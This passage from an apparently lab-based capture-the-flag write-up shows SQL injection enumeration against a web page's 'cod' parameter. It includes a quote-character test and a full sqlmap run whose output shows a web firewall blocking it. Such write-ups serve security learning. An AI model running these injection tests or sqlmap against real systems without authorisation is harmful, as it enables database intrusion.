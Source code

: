 ### SQL Injection

#### Enumeration

I took note earlier of `room.php` which took an argument, `cod`. I can break the page by adding a `'` at the end:

![](https://0xdfimages.gitlab.io/img/jasmin_id_sqli.gif)

It doesn’t crash the page or return 500, but the information and picture for the room aren’t there anymore. This suggests SQL Injection.

#### sqlmap

The easiest way to test SQLI is to through it over to `sqlmap`. Here, it crashes out:

```

root@kali# sqlmap -u http://10.10.10.143/room.php?cod=1
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:02:36 /2019-06-28/

[02:02:36] [INFO] testing connection to the target URL
[02:02:36] [INFO] checking if the target is protected by some kind of WAF/IPS
[02:02:36] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[02:02:36] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
do you want sqlmap to try to detect backend WAF/IPS? [y/N] y
[02:02:40] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[02:02:40] [INFO] using WAF scripts to detect backend WAF/IPS protection
[02:02:40] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
[02:02:40] [INFO] heuristics detected web page charset 'ascii'
[02:02:40] [WARNING] WAF/IPS product hasn't been identified
[02:02:40] [INFO] testing if the target URL content is stable
[02:02:41] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
[02:02:45] [INFO] searching for dynamic content
[02:02:45] [CRITICAL] page not found (404)
[02:02:45] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 8 times

[*] ending @ 02:02:45 /2019-06-28/

```
